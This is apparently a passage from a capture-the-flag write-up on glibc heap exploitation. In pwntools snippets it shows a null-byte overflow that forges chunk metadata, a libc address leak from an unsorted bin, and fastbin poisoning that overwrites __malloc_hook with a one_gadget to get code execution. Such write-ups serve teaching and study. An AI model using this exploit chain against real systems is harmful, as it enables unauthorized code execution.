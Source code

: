 So let's create some chunks and we will discuss our strategie.

```python=
    alloc(0, 0xf8, "A"*0xf7)
    alloc(1, 0x68, "B"*0x67)
    alloc(2, 0xf8, "C"*0xf7)
    alloc(3, 0x10, "D"*0x9)
```
so after those allocations our heap area should look like this 
![](https://i.imgur.com/crxGieH.png)
> 2.Leak libc addres: 

the plan is going to abuse the null byte overflow by overwriting the ``prev_inuse`` bit from ``1`` to ``0`` to mark the previous chunk as a free chunk .
while we are filling the chunk until we overwrite the prev in use bit we also will overwrite the ``prev_size`` field so we can get a chunk where we can have control over.
```python=
    free(0)
    edit(1, b"A"*0x60 + p64(0x170))
    free(2)
    alloc(0, 0xf8, "E"*0xf7)
    show(1)
    p.recvuntil("Content: ")
    libc_base = u64(p.recv(6).ljust(8,b"\x00")) - (libc.sym.main_arena + 88)
    log.success("Libc base @  " + hex(libc_base))
```
So basically we are freeing the first chunk then we are editing from chunk 1 and filling it until we reach the ``prev_size`` field. overwriting ``prev_size`` field with the size of first chunk and second chunk combined (idx0 + idx1 which is 0x100 + 0x70 = 0x170) and then overwriting the ``prev_inuse`` bit of the third chunk.
now we created a layout where our next free will return an unsorted bin chunk. by freeing the third chunk which holds the idx=2 we have an usorted bin chunk that contains a libc adresse (``main_arena + 88``)
now we need to push those adresses to a chunk that we can read from ( idx = 1 for our case)
Re-allocating idx 0 chunk with the same chunk size will push the libc addresses to idx 1 chunk now we have a libc addresse in a chunk we can read from we just use show function and adjust the adresses.

>3.Compute necessary addressess:

```python=
    hook = libc_base + (libc.sym["__malloc_hook"] - 0x23)
    one = libc_base + 0xf1247
```
we are going to overwrite the __malloc_hook we a one_gadget which can be obtained from [here](https://github.com/david942j/one_gadget).

>4.Overwrite __malloc_hook with one_gadget:

```python=
    alloc(4,0x68, "A"*0x10)
    free(1)
    payload = b"A" * 0x13 + p64(one) * 2
    edit(4, p64(hook))
    alloc(5, 0x68, "")
    alloc(6, 0x68, payload)
    p.sendline("1")
    p.sendline("8")
    p.sendline("52")
```
So we just put the adress of the computed __malloc_hook in the Forward pointer of a singly linked list which is fastbins in our case (idx = 1).
Re-allocating again with the same size will return the same chunk we used previously and puts the address of __malloc_hook - 0x23 as the next chunk that will be server for next allocation if it meets the needed requirements.
we just allocate another chunk with the same size and put our payload that overwrites __malloc_hook with one_gadget.